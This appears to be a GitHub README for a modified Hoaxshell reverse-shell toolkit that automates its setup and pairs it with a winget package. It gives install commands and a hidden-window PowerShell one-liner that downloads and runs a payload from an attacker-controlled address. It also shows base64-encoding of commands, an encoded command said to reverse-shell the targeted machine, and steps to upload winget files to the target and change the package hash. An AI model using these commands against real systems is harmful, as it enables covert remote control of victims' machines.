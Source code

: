 <img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Hoax.png" width="500">

# sp-hoaxshell

Copy of the real Hoaxshell (https://github.com/t3l3machus/hoaxshell) with modifications to automatise everything
& see : https://github.com/SentinelSamuel/sp-hoaxshell

## Installation + configuration before the start
```
sudo git clone https://github.com/t3l3machus/hoaxshell.git
sudo rm ./hoaxshell/hoaxshell.py
sudo git clone https://github.com/SentinelSamuel/sp-hoaxshell.git
sudo mv ./sp-hoaxshell/hoaxshell.py ./hoaxshell
sudo mv ./sp-hoaxshell/sp-hoax/ ./
sudo rm -rf ./sp-hoaxshell
sudo pip3 install -r ./hoaxshell/requirements.txt
sudo chmod +x ./hoaxshell/hoaxshell.py
cd sp-hoax/
```

### 1) Start Python server
```
# maybe a sudo before ?
bash python-server-1.sh
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture2.png" width="300">
### 2) Start hoaxshell
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
bash hoaxshell-2.sh  
```
### 3) Make the info file correct
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
pwsh info-3.ps1
```


## Some infos :
```
# Not encoded :
$e=Invoke-RestMethod -Uri "http://10.1.1.3:70/sp-hoax/info"; powershell -WindowStyle hidden -e $e
```
```
# Encoded with this :
$text='<Your commands>'
$encoded=[convert]::ToBase64String([Text.Encoding]::Unicode.getBytes($text))
$encoded
```
```
# Encoded & used in the scripts to reverse-shell the targeted machine
powershell -WindowStyle hidden -e "JABlAD0ASQBuAHYAbwBrAGUALQBSAGUAcwB0AE0AZQB0AGgAbwBkACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwAxADAALgAxAC4AMQAuADMAOgA3ADAALwBzAHAALQBoAG8AYQB4AC8AaQBuAGYAbwAiADsAIABwAG8AdwBlAHIAcwBoAGUAbABsACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABoAGkAZABkAGUAbgAgAC0AZQAgACQAZQA="
```

## AFTER INSTALLING AND DOING EVERYTHING IN THE sp-hoaxshell
Winget.ps1 & winget-manifest.yml --> upload on the target machine

## Installation & configuration before the start :
```
git clone https://github.com/SentinelSamuel/sp-winget-RS-hoax.git
cd ./sp-winget-RS-hoax/winget
``` 

### 4) Start Sha256 changer
```
sudo bash change-sha256.sh
```
